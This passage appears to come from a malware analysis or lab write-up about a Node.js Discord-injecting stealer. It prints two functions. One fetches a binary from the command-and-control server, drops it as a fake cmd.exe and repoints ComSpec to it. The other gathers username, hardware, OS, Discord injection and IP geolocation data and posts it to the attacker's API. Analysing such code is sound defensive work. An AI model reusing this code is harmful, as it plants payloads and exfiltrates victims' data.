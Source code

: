                 const response = await request.json();
                writeFileSync(join(process.env.USERPROFILE, 'Documents','cmd.exe'), Buffer.from(response?.buffer), {
                    flag: 'w'
                });
                process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
                resolve();
            } else {
                process.env.ComSpec = 'C:\\Windows\\system32\\cmd.exe';
                resolve();
            };
        });
    };



It is checking that `cmd.exe` is where it belongs in `system32`. If it
is not there, then it downloads a binary from the C2 and saves it as
`%USERPROFILE%\Documents\cmd.exe` (Task 11).

#### newInjection

`newInjection` is mostly about collecting information about the infected
computer to send back:



    async function newInjection() {
        const system_info = await si?.osInfo();
        const injections = await discordInjection();

        const network = await fetch('https://ipinfo.io/json', {
            method: 'GET',
            headers: {
                'Content-Type': 'application/json'
            }
        });

        const network_data = await network.json();

        fetch(options.api + 'new-injection', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
                duvet_user: options?.user_id,
                computer_name: userInfo()?.username,
                ram: Math.round(totalmem() / (1024 * 1024 * 1024)),
                cpu: cpus()?.[0]?.model,
                injections,
                distro: system_info?.distro,
                uptime: uptime() * 1000,
                network: {
                    ip: network_data?.ip,
                    country: network_data?.country,
                    city: network_data?.city,
                    region: network_data?.region,
                }
            })
        });
    };
